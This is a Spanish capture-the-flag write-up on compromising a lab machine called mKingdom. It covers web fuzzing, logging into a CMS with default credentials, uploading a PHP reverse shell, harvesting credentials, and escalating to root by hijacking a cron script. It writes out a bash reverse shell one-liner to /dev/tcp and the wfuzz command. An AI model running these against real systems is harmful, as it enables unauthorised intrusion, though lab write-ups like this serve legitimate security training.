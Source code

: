 Realizamos un escaneo de nmap
![[Pasted image 20240619114827.png]]

Al acceder a la web encontramos una imagen
![[Pasted image 20240619114930.png]]

Haremos fuzzing web para descubrir posibles directorios y ficheros ocultos
```Bash
wfuzz -c --hc 404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.108.219:85/FUZZ
```
![[Pasted image 20240619115433.png]]

Vemos que aparece un direcctorio llamado app, al acceder nos aparece un boton, al clickarle nos reubica a una nueva web, vamos a analizarlas
![[Pasted image 20240619115719.png]]

Nos ha encontrado otra url que también analizaremos
![[Pasted image 20240619120216.png]]

Aquí si que hemos obtenido mas información, analizamos las url y encontramos que en concrete tenemos acceso a la web
![[Pasted image 20240619120236.png|500]]

Continuando revisando la información encontramos el cms y su version
![[Pasted image 20240619121306.png]]

Revisamos posibles vulnerabilidades y encontramos las siguientes
![[Pasted image 20240619121555.png]]

Continuando por otra parte accedemos al panel de login
![[Pasted image 20240619130310.png]]

Probamos a acceder con las contraseñas por defecto
admin:password y obtenemos acceso al CMS
![[Pasted image 20240619130405.png]]

Ahora buscaremos obtener una reverse shell, intentamos cargar la shell pero nos indica que el formato no es valido
![[Pasted image 20240619131548.png]]

Para ello vamos a los ajustes y permitimos subir la revere shell
![[Pasted image 20240619131648.png]]

Ahora si que podemos subir el fichero
![[Pasted image 20240619131720.png]]
![[Pasted image 20240619131816.png]]

Ahora preparamos netcat y ejecutamos el fichero php
![[Pasted image 20240619132521.png]]

Al ejecutarlo obtenemos la webshell PHP
![[Pasted image 20240619132435.png]]

Ahora nos transferimos la shell y generamos una TTY estable
![[Pasted image 20240619133348.png]]

Revisamos los permisos y encontramos que podemos ejecutar el comando cat
![[Pasted image 20240619135120.png]]

Buscando información encontramos unas credenciales
![[Pasted image 20240619134944.png]]

Probamos las credeciales y ya tenemos acceso al usuario toad
![[Pasted image 20240619135038.png]]

Revisamos el directorio de toad
![[Pasted image 20240619135413.png]]

Leemos el archivo .bashrc y encontramos unas credenciales en base64
![[Pasted image 20240619142830.png]]

Lo decodificamos y obtenemos unas credenciales
![[Pasted image 20240619142932.png]]


Las probamos para acceder al usuario de Mario y ya estamos dentro
![[Pasted image 20240619143016.png]]

Utilizando la herramienta de [[Pspy64]] encontramos un archivo llamado counter.sh
![[Pasted image 20240619145618.png]]

Revisamos el fichero y encotramos que tiene permisos de root y que se ejecuta cada minuto
![[Pasted image 20240619145754.png]]

Ahora intentaremos cargas un payload para obtener una reverse shell como root explotando este fichero counteer.sh, para ello primero agregaremos al directorio /etc/hosts nuestra ip con el dominio de la maquina
![[Pasted image 20240620075531.png]]

Ahora crearemos un directorio identico a la ruta de counter.sh y adjuntaremos nuestra carga maliciosa,  primero creamos la misma carpeta con el archivo en nuestar maquina agregandole el payload al fichero
```
mkdir -p app/castle/application
echo "bash -c 'exec bash -i &>/dev/tcp/10.9.0.164/1234 <&1'" >> /home/wolf/MH/mkingdom/app/castle/application/counter.sh
```
![[Pasted image 20240620080244.png]]

Nos ponemos en escucha desde nuestra maquina y lanzamos un servidor de python
![[Pasted image 20240620080542.png]]

Como vemos al levantalo el servidor ira a descargarlo y si volvemos a la pestaña donde teniamos netcat habremos obtenido la reverse shell
![[Pasted image 20240620080636.png]]






------

Seguimos buscando información y encontramos que no se ha borrado el historial del archivo `.mysql_histroy`
![[Pasted image 20240619140505.png]]

Encontramos el usuario toad creado con sus contraseñas, probamos a acceder y obtenemos acceso a la base de datos
![[Pasted image 20240619140617.png]]

Ahora vamos a ver las tablas
![[Pasted image 20240619140648.png]]

Revisamos la tabla de la BBDD de mKingdom
![[Pasted image 20240619140801.png]]

Seleccionamos la tabla para trabajar con ella, revisando la información tenemos maximos privilegios en esta base de datos
![[Pasted image 20240619140833.png]]

Revismos la tabla de usuarios y encontramos la base de datos del CMS
![[Pasted image 20240619141734.png]]

Analizamos el hash y encontramos que esta cifrado con bcrypt
![[Pasted image 20240619142023.png]]

Lo crackeamos con john the ripper y obtenemos las credenciales, estas son las credenciales anteriores
![[Pasted image 20240619141954.png]]
